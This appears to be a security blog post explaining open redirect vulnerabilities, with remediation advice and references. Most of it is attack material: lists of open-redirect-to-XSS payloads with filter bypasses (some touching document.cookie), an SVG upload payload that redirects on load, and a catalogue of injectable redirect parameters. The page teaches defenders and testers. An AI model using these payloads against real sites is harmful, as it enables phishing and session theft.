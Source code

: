 ```yaml
---
title: Open Redirect Vulnerability
#author: cotes
date: 2024-01-02 12:00:00 +04:00
categories: [Web Vulnerabilities,Open Redirect]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/open_redirection/open-redirection.jpg
  alt: Open Redirect Vulnerability
---
```


## What is Open Redirect?

Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application's access control check and then forward the attacker to privileged functions that they would normally not be able to access. 

## Exploitation

Consider this example: Your web application has a feature that allows users to click a link and be automatically redirected to their saved favorite home page. This may be performed as follows: 


  ```console
https://example.com/redirect?url=https://mywebsite.com
```


An attacker could exploit an open redirect here by replacing the `mywebsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## Open Redirect to XSS

  ```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

## Open Redirect uploading svg files

  ```bash
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```


## Common injection parameters

  ```text
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```


## Safe URL Redirects

When we want to redirect a user automatically to another page (without an action of the visitor such as clicking on a hyperlink) you might implement a code such as the following:


**PHP**

```php
<?php
/* Redirect browser */
header("Location: http://www.mysite.com");
/* Exit to prevent the rest of the code from executing */
exit;
?>
```
{: file='index.php'}

**ASP .NET**

```csharp
Response.Redirect("~/folder/Login.aspx")
```
{: file='index.aspx'}

**Java**

```js
response.sendRedirect("http://www.mysite.com");
```
{: file='index.js'}

## Remediation

- If possible, applications should avoid incorporating user-controllable data into redirection targets. In many cases, this behavior can be avoided in two ways:
  - Remove the redirection function from the application, and replace links to it with direct links to the relevant target URLs.
  - Maintain a server-side list of all URLs that are permitted for redirection. Instead of passing the target URL as a parameter to the redirector, pass an index into this list.

- If it is considered unavoidable for the redirection function to receive user-controllable input and incorporate this into the redirection target, one of the following measures should be used to minimize the risk of redirection attacks:
  - The application should use relative URLs in all of its redirects, and the redirection function should strictly validate that the URL received is a relative URL.
  - The application should use URLs relative to the web root for all of its redirects, and the redirection function should validate that the URL received starts with a slash character. It should then prepend http://yourdomainname.com to the URL before issuing the redirect.
  - The application should use absolute URLs for all of its redirects, and the redirection function should verify that the user-supplied URL begins with http://yourdomainname.com/ before issuing the redirect.





## References

[**OWASP**](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/open-redirect)

[**Pentester**](https://pentester.land/blog/open-redirect-cheatsheet/)

[**Acunetix**](https://www.acunetix.com/vulnerabilities/web/open-redirection/)